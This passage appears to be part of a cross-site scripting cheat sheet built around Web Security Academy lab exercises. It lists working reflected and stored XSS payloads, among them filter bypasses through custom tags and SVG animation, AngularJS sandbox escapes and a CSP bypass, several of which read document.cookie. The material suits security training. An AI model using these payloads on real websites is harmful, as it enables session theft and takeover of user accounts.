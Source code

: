 
- HTML context with all tags blocked except custom ones

	```javascript
	<script>  
	location = 'https://WEBSITE/?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x';  
	</script>
	```


- Event handlers and href attributes blocked

	```javascript
	https://WEBSITE/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
	```

- Some SVG markup allowed

	```javascript
	https://WEBSITE/?search="><svg><animatetransform onbegin=alert(1)>
	```


- Reflected XSS with AngularJS sandbox escape without strings

	```javascript
	https://your-lab-id.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d\[\].join;\[1\]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
	```
	
	
- Reflected XSS with AngularJS sandbox escape and CSP

	```html
	<script>  
	location='https://your-lab-id.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';  
	</script>
	```
	

#### Stored XSS 
Stored XSS is an injection in the actual page by any way (message, template injection, input, ...). Here are some examples: 

- Stored XSS into anchor href attribute with double quotes HTML-encoded

	 ```javascript
	 javascript:alert('XSS')
	 ```
	 
	 
- Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

	```javascript
	&apos;-alert(1)-&apos;
	```
	